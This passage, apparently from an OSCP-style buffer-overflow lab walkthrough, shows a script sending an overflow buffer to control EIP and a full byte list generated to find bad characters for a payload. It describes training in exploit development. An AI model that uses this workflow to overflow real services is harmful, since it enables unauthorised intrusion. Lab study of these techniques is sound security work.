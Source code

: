 I run the script.

```
> python eip.py
[*] Sending buffer
```

![eip2](/assets/imgs/bof5_oscp/eip2.png)

## Find bad characters

Print all characters in python format for testing

> pip install badchars

```
> badchars -f python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

script badchars.py
